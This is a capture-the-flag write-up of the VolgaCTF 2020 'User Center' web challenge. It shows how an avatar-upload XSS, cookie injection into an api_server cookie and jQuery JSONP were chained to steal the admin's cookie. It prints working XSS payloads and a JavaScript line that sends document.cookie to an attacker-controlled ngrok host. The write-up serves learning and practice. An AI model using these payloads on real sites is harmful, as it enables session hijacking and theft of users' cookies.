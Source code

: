 # User Center

## Challenge

```
Steal admin's cookie!
https://volgactf-task.ru/

Category: Web
Points: 300
Solved by: 34 of 1250 teams
```

### Solution - Short version
Exploit avatar image uploading to use Cross-site scripting. Upload URL to bug-report link, so admin navigates to it. Manipulate the cookie to the API URL, and redirect to main site. Request to API instead goes to our attacking server, and returns a javascript which is executed as JSONP. This script sends us the Admin cookies.

### Solution - Long version

> Disclaimer - I didn't manage to solve the task during the CTF, but did after reading the first official [russian writeup](https://translate.google.com/translate?depth=1&nv=1&rurl=translate.google.com&sl=auto&sp=nmt4&tl=en&u=https://blog.blackfan.ru/2020/03/volgactf-2020-qualifier-writeup.html%3Fm%3D1). I'm writing this to understand the missing pieces.
>
> \- Scalpel

On the site the user can upload a new avatar image for the profile, and there is a page where a user can upload a bug-report URL.

### Bug report link

I uploaded a link to my attacker site, and could see that the URL was hit within a minute. So most likely the Admin user will follow the link we upload.

![](beeceptor.png)

The headers doesn't really expose anything useful, other than the fact we see the URL is called.

> #### Alternative to beeceptor 
> To quickly expose a local webserver on a public available random URL it is also possible to use
> ```
> python -m SimpleHTTPServer
> ngrok http 8000
> ```
> This gives a temporary random URL, like `http://149a3dc7.ngrok.io`, and you can edit and serve the files you want.


### XSS for avatar upload

Next is to try to figure out how to exploit the fact that we can upload profile images.

![Edit Profile](EditProfile.png)

Using Burpsuite I intercepted the POST request to the server, and see that it sends a JSON structure to the server consisting of an `avatar` (which is base64 of the filecontent, a `type` and a `bio`.)

![](BurpRequest.png)

If `type` contains the words `html` or `xml` the upload is denied by the API.

It is possible to manipulate the `type` via Burpsuite, so that you can upload any arbitrary file content to the server. 

> #### Tip 
> In Burpsuite it is convenient to rightclick the request in the history, and choose "Send to Repeater". Then you can fiddle with the request, and send it over and over again for quick'n'easy testing.

When navigating to the `/profile.html` page there was an `img` tag there that referenced the file and type we uploaded. Inspecting the network traffic in Firefox was useful to see that the data we uploaded was being downloaded.

Using trial and error I could see that the type could be set to `*/*`, which would later tell Firefox to guess the MIME-type by looking at the downloaded data.

For example, by setting the `avatar` to a base64 encoded version of `<script> alert('xss');</script>`, and navigating directly to the image URL we see it execute javascript.

![](avatar-xss.png)

Another example that worked was to use type `text/rdf` and avatar `<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(document.domain)</a:script>` (base64 encode it). That treats the content as XML, and executes the Javascript.

Ok, at this point we know that we have found a XSS bug, on the static.volgactf-task.ru subdomain.

### Getting admin Cookies

![](volga-sites.png)

There are three sites relevant here. There is the main site `volgactf-task.ru`, the site where avatars are uploaded `static.volgactf-task.ru` and the api where data is stored, `api.volgactf-task.ru`. The first one is the one we're interested in getting Admins cookie for.

When navigating to the /profile.html page, we can notice a slight delay between the loading of the page, and username etc being populated. That is because the page uses jQuery to retrieve data from the API. Relevant code is found in the `/js/main.js` file.

![](main-js.png)

When document has loaded it'll get the cookie called `api_server`, and using `replaceForbiden` function it'll try to make sure none has tampered with it.

Now, the idea is this - use the XSS scripting bug on the `static` site to update the `api_server` cookie. And then tell the browser to navigate to the main site. It'll then try to load data from our evil site instead, and than could lead to another XSS bug.

Here is the javascript uploaded in the `avatar` field, which is used by the first XSS.

```html
<html><script>document.cookie="api_server=149a3dc7.ngrok.io\uc039callback\uc039\uc039q; path=/profile.html;domain=.volgactf-task.ru"; location="https://volgactf-task.ru/profile.html"</script></html>
```

Notice that the api_server is being set to `149a3dc7.ngrok.io\uc039callback\uc039\uc039q`. The `\uc039` is a random weird unicode char which leads the browser to split the domain from the file part. 

This image shows the base64-encoded javascript used.

![](avatar-set-cookie.png)

Then I navigate to the /profile.html page, and retrieve the randomly generated URL for the avatar image, example `https://static.volgactf-task.ru/c19b7d931691bdee80623d2106ff3edf`

At this point we have changed the behavior of the main site. When it is supposed to retrieve info from the `api.volgactf-task-ru` site, it will instead contact our local server.

Lastly, we need to exploit another XSS bug.

jQuery.getJSON() is used in the `main.js` file when getting the JSON object which describes the user. But, by utilizing the [JSONP functionality in jQuery](https://learn.jquery.com/ajax/working-with-jsonp/) we can instead get it to execute a Javascript.

On our local server we can make a very simple `index.htm` file which only contains one line.

```javascript
location='https://149a3dc7.ngrok.io/?q=' + encodeURIComponent(document.cookie)
```

This will cause the second XSS bug to grab the cookie from the main site, and send it to us.

The next step is to get the Admin to browse to it, and that is done by uploading the link to the avatar-URL in the Bug-report section.

![](report-bug.png)

Within a minute, the Admin will navigate to that URL, and the following flow happens.

1) Admin opens the `https://static.volgactf-task.ru/c19b7d931691bdee80623d2106ff3edf` URL
2) Javascript is excuted which creates a new cookie for `api_server`, which points to our attacker server, and javascript redirects Admins browser to `https://volgactf-task.ru/profile.html`
3) Browers loads the /profile.html page, and performs jQuery's getJSON() call to our server.
4) Our server returns a Javascript instead of JSON.
5) That Javascript is executed in Admins browser, and sends us the cookies.

On our local server we can see the request comes in

![](flag-in-cookie.png)

URL decoding that gives `flag=VolgaCTF_0558a4ad10f09c6b40da51c8ad044e16`, and then converted to the correct format `VolgaCTF{0558a4ad10f09c6b40da51c8ad044e16}`